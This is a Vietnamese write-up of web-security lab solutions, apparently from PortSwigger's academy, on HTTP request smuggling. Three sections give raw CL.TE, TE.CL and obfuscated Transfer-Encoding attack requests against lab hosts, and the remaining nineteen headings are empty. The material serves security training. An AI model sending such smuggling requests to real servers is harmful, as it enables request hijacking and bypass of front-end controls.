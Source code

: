 # 1. HTTP request smuggling, basic CL.TE vulnerability
Để exploit HTTP request smuggling, ta cấu hình request sau:
```
POST / HTTP/1.1
Host: 0add002e0324d0fec01c8bee00ab0070.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
Do back-end server xác định điểm cuối của request bằng header `Transfer-Encoding`, nên ký tự `G` cuối cùng sẽ được hiểu là một phần của request tiếp theo. Khi đó, nếu ta gửi thêm một request POST, thì thực tế method của request đó sẽ là GPOST.

Submit request trên hai lần, kết quả bài lab được giải.

# 2. HTTP request smuggling, basic TE.CL vulnerability
Bài lab có front-end sử dụng TE và backend sử dụng CL, như vậy ta có thể exploit với request sau:
```
POST / HTTP/1.1
Host: 0a76006c036dbdfec4dac96100a90022.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 4

5a
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x
0


```
Front-end sử dụng TE nên sẽ lấy body request từ `5a` đến hết ký tự kết thúc `0`, còn back-end sử dụng CL `Content-Length: 4` nên sẽ xử lý body request chỉ có phần `5a`. Như vậy, từ `GPOST` trở đi sẽ được coi là request kế tiếp. Khi ta submit request hai lần, request đầu tiên sẽ là POST request với body `5a`, và request thứ hai sẽ là GPOST request. Như vậy, bài lab được giải thành công.

# 3. HTTP request smuggling, obfuscating the TE header
Website có front-end và back-end server đều sử dụng Transfer-Encoding, ta sẽ thử tìm cách để một trong hai server không xử lý Transfer-Encoding đúng cách.

Thử với request sau:
```
POST / HTTP/1.1
Host: 0a5600960437858ac0f3db4f0041006f.web-security-academy.net
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: x

1
G
0


```
Ta thấy lỗi `Unrecognized method G0POST`, trường hợp này chỉ xảy ra với TE.CL. Như vậy, nếu có hai Transfer-Encoding thì back-end server sẽ lấy header Transfer-Encoding thứ 2(không hợp lệ) và do đó sử dụng Content-Length thay thế, dẫn đến từ TE.TE trở thành TE.CL.

Ta cấu hình đoạn request sau:
```
POST / HTTP/1.1
Host: 0a5600960437858ac0f3db4f0041006f.web-security-academy.net
Content-Length: 3
Transfer-Encoding: chunked
Transfer-Encoding: x

29
GPOST / HTTP/1.1
Content-Length: 15

x
0


```
Sau khi submit request hai lần, website trả về lỗi "Unrecognized method GPOST`. Như vậy, bài lab được giải thành công.


# 4. HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

# 5. HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

# 6. Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

# 7. Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

# 8. Exploiting HTTP request smuggling to reveal front-end request rewriting

# 9. Exploiting HTTP request smuggling to capture other users' requests

# 10. Exploiting HTTP request smuggling to deliver reflected XSS

# 11. Response queue poisoning via H2.TE request smuggling

# 12. H2.CL request smuggling

# 13. HTTP/2 request smuggling via CRLF injection

# 14. HTTP/2 request splitting via CRLF injection

# 15. CL.0 request smuggling

# 16. Exploiting HTTP request smuggling to perform web cache poisoning

# 17. Exploiting HTTP request smuggling to perform web cache deception

# 18. Bypassing access controls via HTTP/2 request tunnelling

# 19. Web cache poisoning via HTTP/2 request tunnelling

# 20. Client-side desync

# 21. Browser cache poisoning via client-side desync

# 22. Server-side pause-based request smuggling
